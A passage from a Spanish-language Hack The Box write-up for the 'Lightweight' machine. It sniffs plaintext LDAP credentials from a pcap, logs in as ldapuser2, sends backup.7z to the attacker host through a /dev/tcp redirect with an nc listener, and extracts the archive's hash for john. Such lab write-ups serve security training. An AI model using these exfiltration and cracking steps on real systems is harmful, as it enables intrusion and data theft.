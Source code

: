 Se procede a descargar el archivo `captura.pcap` vía scp que permite copiar archivos entre servidores de manera segura.
`scp 10.10.14.43@lightweight.htb:/home/10.10.14.43/captura.pcap ./`

Ahora con  Wireshark abrimos el archivo .pcap y como no se está utilizando LDAPS las credenciales se encuentran en texto plano.

Acto seguido, se realiza el login con el usuario `ldapuser2` y la contraseña encontrada en Wireshark.
`su -l ldapuser2`

Ya nos encontramos dentro del sistema así que solo nos queda abrir el archivo `user.txt` para copiar el hash.

```console
Last login: Fri Nov 16 22:41:31 GMT 2018 on pts/0
[ldapuser2@lightweight ~]$ pwd
/home/ldapuser2
[ldapuser2@lightweight ~]$ ls
backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt
[ldapuser2@lightweight ~]$ cat user.txt 
8a866d..........................
```


## Escalamiento de privilegios

En el mismo directorio se encuentra un archivo `backup.7z`, sin embargo, al momento de extraerlo se encuentra protegido con contraseña.

Transferimos el archivo `backup.7z` usando netcat. Por la tanto, en nuestra máquina establecemos una conexión con netcat y lo dejamos a la escucha en el puerto 4444.

```console
root@kali:/home/kali/Documents/HTB/Machines/Lightweight/content# nc -lvnp 4444 >backup.7z
listening on [any] 4444 ...
```

Luego desde la máquina donde se encuentra el servidor LDAP escribimos el siguiente comando:

```console
[ldapuser2@lightweight ~]$ cat backup.7z > /dev/tcp/10.10.14.43/4444
```
Utilizamos `7z2john` para extraer el hash y luego crackearlo con `john`. Si sale el siguiente error al momento de utilizar el script `7z2john.pl` debemos clonar el repositorio que se encuentra en este [link](https://github.com/pmqs/Compress-Raw-Lzma) y seguir las instrucciones del `README.md`:

```console
Can't locate Compress/Raw/Lzma.pm in @INC (you may need to install the Compress::Raw::Lzma module) (@INC contains: /etc/perl /usr/local/lib/x86_64-linux-gnu/perl/5.30.0 /usr/local/share/perl/5.30.0 /usr/lib/x86_64-linux-gnu/perl5/5.30 /usr/share/perl5 /usr/lib/x86_64-linux-gnu/perl/5.30 /usr/share/perl/5.30 /usr/local/lib/site_perl /usr/lib/x86_64-linux-gnu/perl-base) at /usr/share/john/7z2john.pl line 6.
BEGIN failed--compilation aborted at /usr/share/john/7z2john.pl line 6.
```
para extraer el hash utilizamos el siguiente comando:
`/usr/share/john/7z2john.pl ../backup.7z > ../crack.hash`
